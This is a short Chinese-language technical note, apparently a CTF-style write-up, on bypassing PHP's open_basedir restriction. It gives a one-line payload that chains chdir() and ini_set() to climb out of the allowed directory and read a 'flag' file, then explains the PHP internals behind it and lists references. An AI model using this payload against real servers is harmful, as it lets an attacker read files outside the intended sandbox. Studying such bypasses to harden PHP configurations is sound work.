

## 利用chdir()与ini_set()组合


## 0x01 Payload

```
chdir('img');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');echo(file_get_contents('flag'));
```





## 0x02 Why


> `..\0`导致if必然是假 从而进入else逻辑 那就一定会到`VCWD_GETCWD`这个宏 最后会使`resolved_basedir`和`resolved_name`的值几乎一样
> 这样就导致了`php_check_specific_open_basedir`一直返回0 从而控制当前工作目录一直向上穿越 导致open_basedir被绕过
> 这里的关键就是如何将open_basedir设置为`..` 在payload中先`chdir`到了img 再利用open_basedir可以设置为相对目录的特点进行bypass 真的很巧妙


## 0x03 Reference

https://www.php.net/manual/zh/ini.core.php#ini.open-basedir

https://www.jianshu.com/p/98535e6c54df

https://xz.aliyun.com/t/4720

https://www.4hou.com/web/17357.html

[https://www.mi1k7ea.com/2019/07/20/%E6%B5%85%E8%B0%88%E5%87%A0%E7%A7%8DBypass-open-basedir%E7%9A%84%E6%96%B9%E6%B3%95/](https://www.mi1k7ea.com/2019/07/20/浅谈几种Bypass-open-basedir的方法/)